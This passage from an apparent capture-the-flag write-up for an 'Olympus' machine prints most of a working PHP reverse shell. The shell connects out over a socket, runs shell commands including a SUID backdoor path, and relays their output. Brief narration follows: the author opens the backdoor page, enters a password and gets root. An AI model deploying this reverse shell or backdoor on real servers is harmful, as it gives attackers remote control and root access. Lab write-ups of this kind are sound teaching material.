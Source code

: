 $write_a = null;
$error_a = null;

$suid_bd = '/lib/defended/libc.so.99';
$shell = 'uname -a; w; $suid_bd';

chdir('/'); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die('couldn\'t open socket');

$fdspec = array(0 => array('pipe', 'r'), 1 => array('pipe', 'w'), 2 => array('pipe', 'w'));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[$x], 0);
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[$x]);
proc_close($proc);
?>")}}

{{text("I went to this file in my browser and it asked me for a password.")}}

{{image("../../static/writeups/olympus/images/000009.jpg")}}

{{text("I entered the password from the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>$pass</code> variable and it worked.")}}

{{image("../../static/writeups/olympus/images/000010.jpg")}}

{{text("I used the remote method and was able to become root.")}}

{{image("../../static/writeups/olympus/images/000011.jpg")}}

{{script()}}